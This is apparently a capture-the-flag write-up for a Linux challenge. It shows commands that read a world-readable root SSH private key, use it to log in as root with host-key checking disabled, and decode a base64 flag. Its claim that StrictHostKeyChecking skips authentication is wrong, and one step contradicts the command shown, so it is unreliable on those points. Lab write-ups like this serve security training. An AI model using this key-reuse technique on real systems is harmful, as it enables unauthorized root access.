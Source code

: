 # Linux 02
```bash
nc 192.168.10.7 9999
Where am I?
```

root `.ssh` folder is readable, [`id_rsa`](root_id_rsa) aswell

no success:
```bash
$ find / -type f -exec grep -Hn 'cyberctfd' {} \;
$ find / -type f -exec grep -Hn 'Y3liZXJj' {} \;
```

its not `cyberctfd{/home/ctf}`


no helpful env variables
```bash
$ printenv
USER=ctf
SHLVL=1
HOME=/home/ctf
OLDPWD=/home/ctf
PAGER=less
PS1=\h:\w\$ 
LOGNAME=ctf
LC_COLLATE=C
PATH=/bin:/usr/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/sbin
LANG=C.UTF-8
SHELL=/bin/ash
PWD=/home/ctf
CHARSET=UTF-8
```
As its said before the content from root is readable so in there we have the id_rsa

i tried to ssh to the machine with his ip 192.168.10.7 
```bash
$ ssh root@192.168.10.7 -i id_rsa -o StrictHostKeyChecking=no  2>&1
Pseudo-terminal will not be allocated because stdin is not a terminal.
ssh: connect to host 192.168.10.7 port 22: Connection refused
````
The flag -o (options) StrictHostKeyChecking=no allow us to go throw the autentitaction
So instead of that i tried with the root@localhost instead and now you are connected it give a encrypted text now u just decrypt it
```bash
$ ssh root@192.168.10.7 -i id_rsa -o StrictHostKeyChecking=no
$ echo "Y3liZXJjdGZkezFuZDMzZF93aDNyM193NDVfMX0=" | base64 -d
cyberctfd{1nd33d_wh3r3_w45_1} 
```


